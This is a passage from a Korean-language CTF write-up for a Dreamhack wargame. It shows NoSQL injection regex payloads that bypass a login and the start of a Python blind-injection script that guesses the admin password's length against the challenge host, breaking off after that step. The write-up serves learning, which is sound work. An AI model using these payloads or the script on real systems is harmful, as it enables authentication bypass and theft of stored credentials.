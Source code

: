 소문자로 변환되는 이유는, 브라우저에서 URL을 인코딩하고 디코딩하는 특정 상황에서 대문자가 소문자로 변환될 수 있기 때문인 것 같다.

이럴 때는 대소문자 무시 플래그인 `i`플래그를 사용하여, `upw[$regex]=(?i)D.{.{32}}`로 전달을 해줘서 소문자 변환이 되지 않도록 하면 아래와 같이 로그인이 잘 되는 것을 확인할 수 있다.

<img width="795" alt="image" src="https://github.com/user-attachments/assets/6c61ffd4-2bc9-4de7-bdc5-841658bad379">

<br>

### 2. Blind NoSQL Injection

앞에서 NoSQL Injection 공격으로 로그인 인증을 우회하는 것까지는 성공했다.

하지만 이번 문제의 목표는 admin 계정으로 로그인에 성공하는 것이 아니라, admin 계정의 비밀번호(`upw`) 값에 저장되어있는 플래그를 알아내는 것이다.

**`/login` 페이지에서는 `result['uid']`만 출력해주기 때문에 Blind NoSQL Injection을 통해 비밀번호의 길이를 구한 후, 비밀번호를 한자리씩 구해야한다.**

이를 위해서는 자동화 공격 스크립트를 작성하는 것이 필요한데, 익스플로잇 스크립트의 작성 과정을 아래에서 살펴보자.

<br>

#### 1. 모듈 및 상수 선언

```py
import requests
import string

# flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}

HOST = 'http://host3.dreamhack.games:12512'
ALPHANUMERIC = string.digits + string.ascii_letters  # 0123456789 + abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
SUCCESS = 'admin'
```

HTTP 요청을 보내고 받을 수 있는, `requests` 모듈을 먼저 임포트해준 후, 아래에서 사용할 `string` 모듈 또한 임포트해준다.

그리고 비밀번호 길이와 비밀번호를 구하기 전에, 먼저 해당 과정에 필요한 **호스트 주소, 비밀번호 입력값의 범위** 등 상수들을 정의해야한다.

먼저 워게임 서버 주소를 `HOST`에 저장하여 호스트 주소로 설정해주고, `upw` 내부의 플래그는 `32alphanumeric`(알파벳 + 정수)`이므로 해당 범위의 비밀번호 비교값을 `ALPHANUMERIC` 상수에 저장해준다.

`ALPHANUMERIC`은 `string` 모듈의 `digits`, `ascii_letters`을 더해서 `"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"` 문자열이 된다.

그리고 공격을 통해 로그인에 성공하면`result['uid']` 값을 출력(리턴)한다.

여기서 우리는 admin 계정에 로그인할 것이기 때문에 `SUCCESS = "admin"`으로 지정해준 후, 공격 과정에서 `response.text`와 `SUCCESS`가 같은지 비교하여 로그인 성공 여부를 확인할 수 있다.

<br>

#### 2. 비밀번호 길이 구하기 (이미 주어져서 찾을 필요는 없지만 연습)

```py
# 1. 비밀번호 길이 구하기
# 첫 번째 방법
pw_len = 1
while True:
    response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{.{{{pw_len}}}}}')  # D.{.{pw_len}}로 시작

    # response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{.{{{pw_len}}}') # D.{.{pw_len}로 시작하므로 1부터 됨
    # response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=.{{{pw_len}}}') # 이것도 마찬가지로 .{pw_len}로 시작하므로 1부터 됨

    if response.text == SUCCESS:
        break
    pw_len = pw_len + 1
```